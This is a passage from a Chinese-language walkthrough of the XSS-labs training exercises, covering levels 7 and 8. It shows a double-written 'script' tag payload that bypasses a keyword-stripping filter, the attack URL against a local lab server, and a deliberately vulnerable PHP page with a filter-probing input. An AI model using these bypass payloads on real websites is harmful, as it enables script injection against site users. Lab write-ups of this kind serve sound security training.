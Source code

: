 - `strtolower()`将传参变为**小写**，
- `script，on，src，data，href`被替换为**空**，

### **双写** `script`

```js
"><sscriptcript>alert(/xss/)</sscriptcript>
```

### 运行

```html
http://192.168.70.10:8084/level7.php?keyword="><sscriptcript>alert(/xss/)</sscriptcript>
```

![image-20240819211458291](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819211458291.png)

## level8 unicode编码

### 访问

http://192.168.70.10:8084/level8.php?keyword=nice%20try!

![image-20240819213548877](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819213548877.png)

### 源码

```PHP
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
```

### 测试过滤

```js
<script " 'Oonn>
```

![image-20240819213702409](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819213702409.png)
